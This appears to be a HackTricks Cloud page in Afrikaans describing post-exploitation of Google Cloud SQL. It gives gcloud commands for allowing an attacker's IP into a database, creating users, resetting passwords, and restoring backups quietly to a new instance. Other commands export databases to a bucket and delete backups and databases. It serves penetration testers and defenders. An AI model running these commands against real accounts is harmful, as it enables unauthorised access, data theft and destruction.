 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Vir meer inligting oor Cloud SQL kyk:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Om met die databasisse te verbind, **het jy net toegang tot die databasispoort nodig** en moet jy die **gebruikersnaam** en **wagwoord** weet, daar is geen IAM vereistes nie. So, 'n maklike manier om toegang te verkry, veronderstel dat die databasis 'n publieke IP-adres het, is om die toegelate netwerke op te dateer en **jou eie IP-adres toe te laat om toegang te verkry**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Dit is ook moontlik om **`--no-backup`** te gebruik om die **rugsteun** van die databasis te **onderbreek**.

Aangesien dit die vereistes is, is ek nie heeltemal seker waarvoor die toestemmings **`cloudsql.instances.connect`** en **`cloudsql.instances.login`** is nie. As jy dit weet, stuur 'n PR!

### `cloudsql.users.list`

Kry 'n **lys van al die gebruikers** van die databasis:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Hierdie toestemming laat toe om **nuwe gebruiker binne** die databasis te **skep**:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Hierdie toestemming laat toe om **gebruikers binne** die databasis te **opdateer**. Byvoorbeeld, jy kan sy wagwoord verander:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Back-ups mag **ou sensitiewe inligting** bevat, so dit is interessant om hulle te kontroleer.\
**Herstel 'n rugsteun** binne 'n databasis:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Om dit op 'n meer stil manier te doen, word dit aanbeveel om 'n nuwe SQL-instansie te skep en die data daar te herstel in plaas van in die tans lopende databasisse.

### `cloudsql.backupRuns.delete`

Hierdie toestemming laat toe om rugsteun te verwyder:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksporteer 'n databasis** na 'n Cloud Storage-bucket sodat jy dit daar kan benader:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importeer 'n databasis** (oorskryf) vanaf 'n Cloud Storage-bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Verwyder 'n databasis van die db-instansie:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
